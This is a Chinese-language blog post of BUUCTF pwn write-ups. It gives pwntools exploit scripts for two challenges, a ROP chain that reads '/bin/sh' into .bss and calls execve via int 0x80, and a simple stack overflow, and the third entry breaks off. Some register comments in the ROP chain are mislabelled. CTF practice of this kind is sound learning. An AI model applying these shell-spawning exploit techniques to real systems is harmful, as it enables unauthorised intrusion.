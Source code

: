 ```yaml
---
title: buuctf-pwn write-ups (6)
date: 2023-02-28 22:09:00
categories:
- write-ups
- buuctf 系列
---
```

# buu047-cmcc_simplerop
和上一道题的思路完全相同。
```python
from pwn import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 26121)
int80 = 0x80493E1
popeax_ret = 0x80BAE06
popedx_ret = 0x806e82a
popecx_ebx_ret = 0x806E851
addesp0x14_ret = 0x807b36c
bss = 0x80EB060
read = 0x806CD50
payload = cyclic(0x14 + 12)

payload += p32(read)			# call read()
payload += p32(addesp0x14_ret)	# return address, add esp to execute latter ROP
payload += p32(0)				# arg #1 of read(): stdin
payload += p32(bss)				# arg #2 of read(): a bss address
payload += p32(0x8)				# arg #3 of read(): read length
payload += p32(0) * 2

payload += p32(popeax_ret)		# eax = 0x11(SYS_EXECVE)
payload += p32(11)
payload += p32(popecx_ebx_ret)
payload += p32(0)				# ebx = '/bin/sh'
payload += p32(bss)				# edx = 0
payload += p32(popedx_ret)
payload += p32(0)				# ecx = 0
payload += p32(int80)			# int 80

io.sendline(payload)
io.sendline(b'/bin/sh' + b'\x00')
io.interactive()
```
# buu048-picoctf_2018_buffer overflow 2
```python
from pwn import *
context.log_level='debug'
# io = process('pwn')
io = remote('node4.buuoj.cn', 27446)
io.sendline(cyclic(0x6C+4) + p32(0x80485CB) + p32(0) + p32(0xdeadbeef) + p32(0xdeadc0de))
io.interactive()
```
# buu049-xdctf2015_pwn200
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'
# io = process('./pwn')
```